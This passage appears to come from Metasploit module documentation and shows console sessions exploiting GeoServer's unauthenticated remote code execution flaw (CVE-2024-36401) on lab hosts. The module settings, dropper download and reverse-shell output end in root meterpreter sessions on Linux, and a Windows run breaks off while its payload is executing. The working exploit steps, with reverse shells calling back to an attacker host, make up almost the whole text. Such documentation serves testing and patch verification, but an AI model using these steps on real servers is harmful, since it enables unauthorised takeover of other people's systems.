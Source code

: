 ```msf
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/opt
meterpreter >
```
###  GeoServer 2.23.5 on ARM64 Raspberry PI-4 Kali Linux 2024.4 - linux/aarch64/meterpreter_reverse_tcp
```msf
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 1
target => 1
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set payload linux/aarch64/meterpreter_reverse_tcp
payload => linux/aarch64/meterpreter_reverse_tcp
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set rhosts 192.168.201.10
rhosts => 192.168.201.10
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target is vulnerable. Version 2.23.5
[*] Executing Linux Dropper for linux/aarch64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:1981/680jWmUv1qm
[*] Client 192.168.201.10 (curl/8.5.0) requested /680jWmUv1qm
[*] Sending payload to 192.168.201.10 (curl/8.5.0)
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Meterpreter session 12 opened (192.168.201.8:4444 -> 192.168.201.10:60692) at 2024-07-11 21:04:34 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.10
OS           : Debian  (Linux 5.15.44-Re4son-v8l+)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/usr/share/geoserver
meterpreter >
```
### GeoServer 2.25.0 on x64 Windows 10 (10.0 Build 19045)
```
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set rhosts 172.16.199.131
rhosts => 172.16.199.131
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 2
target => 2
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target is vulnerable. Version 2.25.0
[*] Executing Windows Command for cmd/windows/http/x64/meterpreter/reverse_tcp
```